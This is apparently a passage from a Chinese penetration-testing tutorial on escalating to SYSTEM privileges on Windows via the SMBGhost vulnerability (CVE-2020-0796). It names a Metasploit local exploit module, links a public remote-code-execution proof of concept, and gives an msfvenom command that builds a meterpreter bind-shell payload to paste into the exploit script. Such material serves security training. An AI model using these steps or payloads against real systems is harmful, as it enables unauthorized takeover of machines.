 运行应用程序后弹出cmd窗口为 system权限

![img](../../../.vuepress/public/img/1627103611077-e1fc15be-d3ea-4036-82f2-5cf7a90f7ea9.png)

或者使用 MSF的内置EXP windows/local/cve_2020_0796_smbghost 来本地提权 

<a-alert type="success" message="https://github.com/chompie1337/SMBGhost_RCE_PoC" description="" showIcon>
</a-alert>
<br/>

`msfvenom生成reversed shellcode`

`msfvenom -p windows/x64/meterpreter/bind_tcp lport=2333 -f py -o exp.py`

将生成exp.py中的shellcode替换exploit.py中的shellcode

![img](../../../.vuepress/public/img/1627103611172-2054aa5a-50ed-4b22-b507-2e2708bb277b.png)
